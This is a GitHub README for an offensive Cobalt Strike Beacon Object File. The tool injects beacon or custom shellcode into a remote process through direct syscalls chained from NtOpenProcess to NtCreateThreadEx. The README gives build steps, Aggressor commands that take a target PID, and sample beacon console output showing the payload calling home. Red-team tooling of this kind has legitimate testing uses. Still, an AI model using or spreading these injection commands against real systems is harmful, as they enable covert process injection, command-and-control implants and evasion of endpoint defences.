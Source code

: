 ## Static Syscalls Shellcode Injection BOF (64-bit only)

Beacon object file to:
- Inject shellcode (either custom or beacon) into remote process using NtOpenProcess -> NtAllocateVirtualMemory -> NtWriteVirtualMemory -> NtCreateThreadEx.

Syscalls generated using @jthuraisamy's [SysWhispers](https://github.com/jthuraisamy/SysWhispers) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

## Compile

```
make
```

## Usage

Aggressor script included with the following commands:
- `static_syscalls_inject PID listener_name` - Injects shellcode for beacon into target PID. 
- `static_syscalls_shinject PID path_to_bin` - Injects custom shellcode into target PID.

> NOTE: BOF is for 64-bit use only.

### Custom shellcode
```
beacon> static_syscalls_shinject 4052 C:\Users\user\shellcode\calc.bin
[*] Static Syscalls Shellcode Injection BOF (@ajpc500)
[*] Reading shellcode from: C:\Users\user\shellcode\calc.bin
[+] host called home, sent: 4824 bytes
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> static_syscalls_inject 4972 http
[*] Static Syscalls Shellcode Injection BOF (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 266180 bytes
[+] received output:
Shellcode injection completed successfully!
```